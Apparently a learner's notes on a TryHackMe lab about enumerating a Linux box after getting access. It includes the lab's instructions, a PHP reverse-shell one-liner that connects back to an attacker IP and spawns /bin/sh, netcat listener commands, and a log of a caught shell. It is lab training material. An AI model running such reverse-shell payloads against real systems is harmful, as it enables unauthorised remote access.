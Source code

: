 ```yaml
---
Learn to efficiently enumerate a linux machine and identify possible weaknesses
---
```


![|333](https://tryhackme-images.s3.amazonaws.com/room-icons/d05746cfa7596f2f06697288060a143a.png)

###  Introduction 

Have you ever found yourself in a situation where you have no idea about "what to do after getting a reverse shell (access to a machine)"?
If your answer was "Yes", this room is definitely for you. This rooms aims at providing beginner basis in box enumeration, giving a detailed approach towards it.

Here's a list of units that are going to be covered in this room:
Unit 1 - Stabilizing the shell
	Exploring a way to transform a reverse shell into a stable bash or ssh shell.
Unit 2 - Basic enumaration
	Enumerate OS and the most common files to identify possible security flaws.
Unit 3 - /etc
	Understand the purpose and sensitivity of files under /etc directory.
Unit 4 - Important files
	Learn to find files, containing potentially valuable information.
Unit 6 - Enumeration scripts
	Automate the process by running multiple community-created enumeration scripts.

Browse to the MACHINE_IP:3000 and follow the instructions.
To continue with the room material, you need to get a reverse shell using a PHP payload and a netcat listener (nc -lvnp 1234).

How reverse shells work in a nutshell:

![](https://i.imgur.com/WlwnnqK.png)

```
Hello there!
This website is highly vulnerable to file upload and RCE. Use those to gain initial access to the box.

Method 1:
Browse to cmd.php and add the following php payload to the input field.
php -r '$sock=fsockopen("{IP}",{PORT}});exec("/bin/sh -i <&3 >&3 2>&3");'

Method 2:
Upload a reverse shell file below and execute it using the cmd.php 

fisrt listen 
rlwrap nc -nlvp 4444 

so go to ip:3000/cmd.php then input the payload

php -r '$sock=fsockopen("10.11.81.220",4444);exec("/bin/sh -i <&3 >&3 2>&3");'


yeah 

┌──(kali㉿kali)-[~]
└─$ rlwrap nc -nlvp 4444                                  
Ncat: Version 7.92 ( https://nmap.org/ncat )
Ncat: Listening on :::4444
Ncat: Listening on 0.0.0.0:4444
Ncat: Connection from 10.10.107.52.
Ncat: Connection from 10.10.107.52:44610.
/bin/sh: 0: can't access tty; job control turned off
```